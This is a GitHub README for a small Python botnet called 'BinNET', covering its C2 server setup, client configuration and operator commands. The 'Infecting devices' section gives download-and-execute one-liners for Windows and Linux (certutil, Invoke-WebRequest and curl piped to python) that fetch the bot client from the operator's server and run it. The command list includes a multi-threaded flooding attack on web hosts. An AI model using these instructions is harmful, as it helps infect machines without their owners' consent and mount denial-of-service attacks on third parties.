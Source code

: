 # I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY THIS TOOL.

# BinNET

This is a very simple botnet with a CnC server, made by me. Feel free to change anything!

## Requirements
- requests: `pip install requests`
The remaining libraries are included with Python.

## Usage
Run `python server.py` to start listening for incoming connections. It listens by default in port 57849.

To connect machines to your server, you'll first need to change the variable `ADDRESS` in `client.py`. In case you want 
to run this in your own network, replace this variable with your private IP address. If your client machines are outside
your intranet, change the variable's value to your server's public IP address. Every time a client connects to the 
server, it will print a message with the client's IP address.

## Infecting devices

Windows:
```
CMD:
certutil.exe -urlcache -split -f "http(s)://yourip/yourfile" C:\Windows\Temp & python C:\Windows\Temp\yourfile

Downloads the file to the temp directory and runs it. The machine needs to have Python installed.

PowerShell:
Invoke-WebRequest -Uri http://localhost/client.py | Select-Object -ExpandProperty Content | python

Gets the script from your server, and runs it with Python
```

GNU/Linux:
```
curl -s -X GET http(s)://yourip/yourfile | python
```
This reads the file from your server and runs it with Python. It can also run in Windows if the machine has curl installed.
## Available commands(i'll update them)
```
list: lists all machines connected.

atk [host] [port] <threads>: sends multiple requests to the host and port specified. Currently, it only works on 
web servers. Default threads: 100.

print [text]: prints a text in all connected machines.

help: shows this help message, but inside the program.
```